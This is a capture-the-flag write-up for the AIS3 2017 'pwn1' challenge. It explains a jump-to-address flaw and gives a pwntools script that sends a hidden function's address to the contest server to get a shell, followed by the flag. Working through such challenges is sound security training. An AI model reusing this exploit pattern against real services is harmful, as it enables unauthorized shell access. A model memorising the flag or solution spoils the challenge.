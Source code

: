 # AIS3 Pre-exam 2017: pwn1

![pwn1](pwn1.png)

## Solution
![main](main.png)
The main function looks like this, we input a string and it will change the string to address and jump to that address.
Note that the binary also has a secret function "youcantseeme", which perform system("sh").
So we just have to input youcantseeme's address and perform system("sh").
The address of performing system() is 0x08048613, so we just input "\x13\x86\x04\x08" in little endian.

```python
#!/usr/bin/env python

from pwn import *

# host = '127.0.0.1'
# port = 8888
host = 'quiz.ais3.org'
port = 9561

r = remote(host, port)

raw_input('#')
r.recvuntil(': ')

payload = '\x13\x86\x04\x08'

r.sendline(payload)
r.interactive()
```

Flag:
>ais3{4nn0y1n9_Wh1t3_SpAcE_CHAR4CTERS}
